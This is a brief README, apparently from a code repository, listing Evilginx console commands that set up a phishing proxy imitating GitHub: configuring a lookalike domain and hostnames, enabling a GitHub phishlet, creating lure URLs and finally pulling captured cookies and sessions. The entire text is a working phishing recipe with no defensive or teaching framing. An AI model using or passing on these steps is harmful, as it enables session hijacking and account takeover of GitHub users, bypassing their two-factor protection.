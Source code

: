 # evilginx


1.Setup domain
		`config domain fake.com/custom domain`

2.config IPv4
		`config ipv4 127.0.0.1`

3.set phishlet hostname
		`phishlets hostname github github.io.fake.com`
4.Enable Phishlet
		`phishlets enable github `

5.Optinal(Dev mode\Local Mode)
		`phishlets get-hosts github`

		127.0.0.1 github.io.fake.com
		127.0.0.1 api.github.io.fake.com
		127.0.0.1 github.github.io.fake.com
		SET THIS TO /ETC/HOSTS 

6.Create Lures
		`lures create github`

7.List all lures
		`lures`

8.Get the Lures URLs
		`lures get-urls 0 (id .i.e 0)`

9.Get Cookies/Sessions
		` sessions Id`
